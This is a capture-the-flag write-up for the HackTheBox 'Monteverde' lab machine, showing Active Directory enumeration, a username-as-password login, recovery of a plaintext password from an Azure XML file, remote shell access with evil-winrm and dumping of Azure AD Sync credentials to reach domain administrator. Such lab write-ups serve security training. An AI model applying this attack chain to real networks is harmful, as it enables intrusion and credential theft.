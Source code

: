 ```yaml
---
title: "Monteverde"
date: 2025-06-20
categories:
  - HackTheBox
  - Active Directory
tags:
  - HackTheBox
  - Active Directory
---
```


# Monteverde

![](../assets/Pasted%20image%2020250508235926.png)
<!-- more -->

## Enumeration

```shell
$ nmap -A -T4 --min-rate 5000 -p- -n -Pn --open 10.10.10.172
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 00:19 CEST
Nmap scan report for 10.10.10.172
Host is up (0.042s latency).
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        (generic dns response: SERVFAIL)
| fingerprint-strings: 
|   DNS-SD-TCP: 
|     _services
|     _dns-sd
|     _udp
|_    local
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-08 22:13:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49750/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -6m44s
| smb2-time: 
|   date: 2025-05-08T22:14:26
|_  start_date: N/A
```

Get users with a null session via `rpcclient` and make a list

```shell
$ rpcclient -U '' -N 10.10.10.172
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

```shell
$ cat users | awk -F[][] '{print $2}' | sponge users
```

A user has an important description

```shell
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2       Name: AAD_987d7f2f57d2  Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
```

Using `nxc` we find that `SABatchJobs` uses the same password as the name.

![](../assets/Pasted%20image%2020250509004204.png)

Looking at the shares, the user can read some folders.

![](../assets/Pasted%20image%2020250509093833.png)

In the `users` folder, the user `mhope` has an `azure.xml` file

![](../assets/Pasted%20image%2020250509094041.png)

```shell
$ cat azure.xml                
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

So `mhope:4n0therD4y@n0th3r$`

```shell
$ nxc winrm 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
WINRM       10.10.10.172    5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

## Initial Access

Using the found credentials, use `evil-winrm` to access the machine

```shell
$ evil-winrm -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```

Get the flag

```shell
*Evil-WinRM* PS C:\Users\mhope\desktop> type user.txt
faea87344cd9b77a1fddc48abc6a62da
```

## Privilege Escalation

`mhope` belongs to the Azure Admins group and the system has Azure AD Sync and a database installed, so:

```shell
*Evil-WinRM* PS C:\program files> ls
    Directory: C:\program files
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Searching for an exploit, we find [https://github.com/VbScrub/AdSyncDecrypt](https://github.com/VbScrub/AdSyncDecrypt). Download the files and upload them to the machine, then, following the instructions, execute the exe.

```shell
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\users\mhope\addecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

`administrator:d0m@in4dminyeah!`

Re-enter as `administrator` via `evil-winrm`

```shell
$ evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```

## Post Exploitation

```shell
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
6fb5178cc58500def2e5ede28a86cc0d
```
